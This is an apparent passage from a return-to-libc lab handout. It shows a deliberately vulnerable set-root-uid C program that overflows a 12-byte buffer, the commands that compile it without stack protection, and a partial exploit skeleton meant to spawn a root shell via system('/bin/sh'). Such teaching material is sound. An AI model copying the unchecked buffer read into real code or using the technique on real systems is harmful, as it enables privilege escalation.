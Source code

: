 ```

    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 40, badfile);

    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;

    badfile = fopen("badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");

    fclose(badfile);
    return 1;
}
```
Compile the above vulnerarble program and make it set-root-uid.
```
sudo gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chmod 4755 retlib
```
The above program has a buffer overflow vulnerability. It first reads an input of size 40 bytes from a file called "badfile" into a buffer of size 12, causing the overflow. The function fread() does not check boundaries, so bufferoverflow will occur. Since this program is a set-root-uid program, if a normal user can exploit this buffer overflow vulnerability, the normal user might be able to get a root shell. It should be noted that the program gets its input from a file called "badfile". This file is under users' control. Now, our objective is to create the contents for "badfile". This file is under users' control. Now, our objective is to create the contents for "badfile", such that when the vulnerable program copies the contents into its buffer, a root shell can be spawned.

### Task 1: Exploiting the Vulnerability
Create the badfile.
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"
  *(long *) &buf[Y] = some address ;   //  system()
  *(long *) &buf[Z] = some address ;   //  exit()

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```
You need to figure out the values for those addresses, as well as to find out where to store those addresses. If you incorrectly calculate the locations, your attack might not work.
